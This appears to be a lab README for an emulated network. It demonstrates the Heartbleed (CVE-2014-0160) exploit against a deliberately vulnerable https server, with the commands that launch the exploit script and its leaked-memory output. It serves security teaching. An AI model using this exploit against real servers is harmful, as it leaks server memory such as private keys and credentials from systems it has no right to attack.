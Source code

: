 # Heartbleed attack

This example covers the Heartbleed attack. The vulnerable https server is setup
on the host node (10.0.1.10/24).

## Starting the vulnerable server
Start the experiment specified in `service.imn` and issue the
[start_https.sh](start_https.sh) command to start the https server on the host
node:
```console
# ./start_https.sh
```
After executing the command check with the `ps` and `netstat` commands whether
the https server is running on the host node.
```console
root@host:/ # ps ax
 PID TT  STAT    TIME COMMAND
 9733 ??  IsJ  0:00.00 rpcbind
 9735 ??  IsJ  0:00.00 inetd
 9895 ??  SJ   0:00.00 lighttpd -f /usr/local/etc/lighttpd/lighttpd.conf
 9897  2  SJ   0:00.01 csh
 9911  2  R+J  0:00.00 ps ax
root@host:/ # netstat -anfinet
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 *.443                  *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.111                  *.*                    LISTEN
udp4       0      0 *.618                  *.*                    
udp4       0      0 *.111                  *.*      
```

## Executing the attack
On the virtual nodes we have previously deployed a vulnerable version of openssl
and lighttpd. The script [heartbleed.sh](heartbleed.sh) is used to execute the
attack. It copies the [heartbleed.py](heartbleed.py) script on the Attacker node
and executes it. The python script used to exploit the server can be found
[https://gist.github.com/eelsivart/10174134](here).

The execution result is as follows:
```console
# ./heartbleed.sh
defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed
(CVE-2014-0160)
##################################################################
Connecting to: 10.0.1.10:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.0.1.10:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#
```

If the heartbleed script is ran repeatedly without the server actually
processing new data the output will be the same. If we issue external requests
from the PC node, we force the server to process some data and that causes a
change in the leaked part of memory:
```console
# himage PC wget -r --no-check-certificate https://10.0.1.10/
```

After issuing the request we can see that the output of the heartbleed script
changes:
```console
% sudo ./heartbleed.sh
defribulator v1.16
...
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#........\.>.H....m..W.\...U....K
```
